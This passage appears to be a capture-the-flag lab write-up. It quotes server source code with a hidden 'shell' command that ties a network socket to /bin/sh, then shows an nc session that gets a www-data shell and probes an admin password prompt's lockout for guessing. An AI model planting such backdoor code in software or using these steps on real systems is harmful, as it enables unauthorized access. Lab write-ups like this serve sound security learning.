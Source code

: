```shell
  
       if data == 'shell':  
           shell(client_socket)  
       else:  
           exec_python(client_socket, data)  
  
def shell(client_socket):  
   try:  
       import pty  
       os.dup2(client_socket.fileno(), 0)  
       os.dup2(client_socket.fileno(), 1)  
       os.dup2(client_socket.fileno(), 2)  
       pty.spawn("/bin/sh")  
   except Exception as e:  
       send_data(client_socket, e  
  
...............................................
```

So connecting to port `8000` and sending `shell` gives you a shell:
```shell
nc 10.10.167.123 8000  
shell  
$ id  
id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
$ ^C
```

I keep testing and luckily when I send `admin` it prompts me to enter a password:
```shell
nc 10.10.154.107 8000  
admin  
Password:  
test1  
Password:  
test2  
Password:  
test3  
admin  
Password:  
test4  
Password:  
test5  
Password:  
test6    
admin  
Password:  
test7  
Password:  
^C
```
I can enter 3 wrong passwords before I need to enter `admin` again. 
